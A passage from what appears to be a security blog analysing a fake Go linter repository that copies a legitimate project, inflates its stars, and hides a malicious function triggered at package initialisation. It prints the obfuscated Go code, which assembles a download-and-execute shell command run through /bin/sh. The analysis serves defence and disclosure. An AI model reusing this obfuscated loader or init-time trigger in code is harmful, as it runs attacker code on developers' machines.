 ```go
	gEITO := LZdI[33] + LZdI[18] + LZdI[71] + LZdI[30] + LZdI[65] + LZdI[63] + LZdI[9] + LZdI[28] + LZdI[8] + LZdI[35] + LZdI[64] + LZdI[5] + LZdI[19] + LZdI[51] + LZdI[21] + LZdI[67] + LZdI[24] + LZdI[72] + LZdI[53] + LZdI[54] + LZdI[55] + LZdI[27] + LZdI[61] + LZdI[62] + LZdI[31] + LZdI[14] + LZdI[17] + LZdI[20] + LZdI[52] + LZdI[56] + LZdI[22] + LZdI[69] + LZdI[45] + LZdI[11] + LZdI[37] + LZdI[3] + LZdI[49] + LZdI[13] + LZdI[40] + LZdI[43] + LZdI[42] + LZdI[50] + LZdI[57] + LZdI[73] + LZdI[16] + LZdI[44] + LZdI[60] + LZdI[36] + LZdI[7] + LZdI[29] + LZdI[6] + LZdI[41] + LZdI[39] + LZdI[15] + LZdI[68] + LZdI[1] + LZdI[46] + LZdI[4] + LZdI[38] + LZdI[58] + LZdI[12] + LZdI[2] + LZdI[59] + LZdI[66] + LZdI[10] + LZdI[0] + LZdI[23] + LZdI[70] + LZdI[47] + LZdI[26] + LZdI[25] + LZdI[34] + LZdI[48] + LZdI[32]
	exec.Command(WCubG, tWsCX, gEITO).Start()
	return nil
}

var KmxwBShY = TlaOAE()
```

Every time a developer runs the `usetesting` linter, the global variable `KmxwBShY` is [initialized](https://go.dev/ref/spec#Program_initialization), and the malicious function `TlaOAE` gets executed.

## How `ultimatepate/usetesting` deceives developers

Before we analyze what the malicious function does, let's discuss how this fake linter stands out over the original project and deceives people.
First of all, this malicious program has the same functionality as the original ldez/usetesting except for one function.
Secondly, it has 89 stars and 17 forks, whereas the original ldez/usetesting has only 26 stars and 1 fork.
This misleads developers into thinking that a lot of stars and forks indicate a good project.

{{< figure src="/img/2025-02-28-malicious-go-programs/malicious-usetesting.png" width="80%" caption="Malicious usetesting linter repo" >}}

{{< figure src="/img/2025-02-28-malicious-go-programs/original-usetesting.png" width="80%" caption="Original usetesting linter repo" >}}

## What malicious actions `ultimatepate/usetesting` performs

The function `TlaOAE` is obfuscated to bypass GitHub's security scanners, but we can decode it.
Let's print `exec.Command` arguments `WCubG, tWsCX, gEITO`:

```go
LZdI := []string{"i", "5", "|", "t", "6", "t", "f", "0", "-", "O", "b", "/", " ", "r", "n", "3", "3", "i", "g", "t", ".", "s", "a", "n", "/", "s", "a", "a", " ", "d", "t", "m", "&", "w", "h", " ", "d", "s", "b", "a", "a", "/", "e", "g", "7", "e", "4", "b", " ", "o", "/", "p", "s", "m", "e", "t", "p", "d", "f", " ", "3", "l", "o", "-", "h", " ", "/", ":", "1", "c", "/", "e", "/", "e"}
WCubG := "/bin/sh"
tWsCX := "-c"
gEITO := LZdI[33] + LZdI[18] + LZdI[71] + LZdI[30] + LZdI[65] + LZdI[63] + LZdI[9] + LZdI[28] + LZdI[8] + LZdI[35] + LZdI[64] + LZdI[5] + LZdI[19] + LZdI[51] + LZdI[21] + LZdI[67] + LZdI[24] + LZdI[72] + LZdI[53] + LZdI[54] + LZdI[55] + LZdI[27] + LZdI[61] + LZdI[62] + LZdI[31] + LZdI[14] + LZdI[17] + LZdI[20] + LZdI[52] + LZdI[56] + LZdI[22] + LZdI[69] + LZdI[45] + LZdI[11] + LZdI[37] + LZdI[3] + LZdI[49] + LZdI[13] + LZdI[40] + LZdI[43] + LZdI[42] + LZdI[50] + LZdI[57] + LZdI[73] + LZdI[16] + LZdI[44] + LZdI[60] + LZdI[36] + LZdI[7] + LZdI[29] + LZdI[6] + LZdI[41] + LZdI[39] + LZdI[15] + LZdI[68] + LZdI[1] + LZdI[46] + LZdI[4] + LZdI[38] + LZdI[58] + LZdI[12] + LZdI[2] + LZdI[59] + LZdI[66] + LZdI[10] + LZdI[0] + LZdI[23] + LZdI[70] + LZdI[47] + LZdI[26] + LZdI[25] + LZdI[34] + LZdI[48] + LZdI[32]
fmt.Println(WCubG, tWsCX, gEITO)
```
